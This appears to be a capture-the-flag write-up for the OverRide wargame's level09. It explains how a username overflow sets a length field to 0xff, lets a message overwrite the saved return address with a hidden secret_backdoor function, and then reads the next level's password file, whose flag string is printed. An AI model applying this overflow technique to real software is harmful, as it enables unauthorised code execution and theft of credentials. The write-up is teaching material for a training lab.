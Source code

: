 # level09 walkthrough

## the binary
``` shell
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: ffarkas
>: Welcome, ffarkas
>: Msg @Unix-Dude
>>: Hello!
>: Msg sent!
```

## methodology
- buffer overflow attack

The binary prompts for a username and message upon execution. By examining the list of functions, we find a `secret_backdoor` function that is not called in the main logic. This function uses `system` to execute a command. Our task is therefore simple:

- find a way to cause a buffer overflow when entering the input (since `fgets` is used, we need to overflow the buffer by knowing the allocated memory for each array)
- overwrite and control the `EIP` register.

The binary uses a structure to manage the data:
``` C
typedef struct s_msg {
	char user_str[40];
	char msg_str[140];
	int str_len;
}	t_msg;
```

The input values are handled by `set_username` and `set_msg` functions respectively:
``` vbnet
F_HANDLE_MSG():
    set message length to 0x8c
        └─> msg.str_len = 140

    F_SET_USERNAME():
        └─ input username
        └─ load into local array
        └─ copy first 0x28 characters to structure
            └─> 40x (msg->user_str[i] = array[i])

    F_SET_MSG():
        └─ input message
        └─ load into local array
        └─ use strncpy to copy msg.str_len characters
            └─> strncpy(msg->msg_str, array, msg->str_len)
```

The first part of the overflow is evident in the source code logic - we use 40 characters reserved for the username and set the `msg.str_len` to the maximum possible value using two hexadecimal digits (8 bits):
``` vbnet
user_str -> 40 characters
str_len -> 0xff (255)
```

As we inspect the `EIP` through its manipulations, we can estimate its position relative to the base of the stack:
``` vbnet
0x00000000000008c4 <+4>:	sub    $0xc0,%rsp
                                        └─> 192 ----┐
0x00000000000009cd <+0>:	push   %rbp             |--> EIP is at base + 200
                                     └─> 8 ---------┘
```

The final piece we need is the address of the `secret_backdoor` function:
``` shell
0x000055555555488c
```

Using this information, we can craft the final payload, spawn an interactive `/bin/sh` shell, and execute the `cat` command to display the flag.
- unfortunately, the shell does not work after executing the first command

## flag
``` shell
level09@OverRide:~$ python /tmp/payload09 > tmp/flag9
level09@OverRide:~$ cat /tmp/flag9 - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
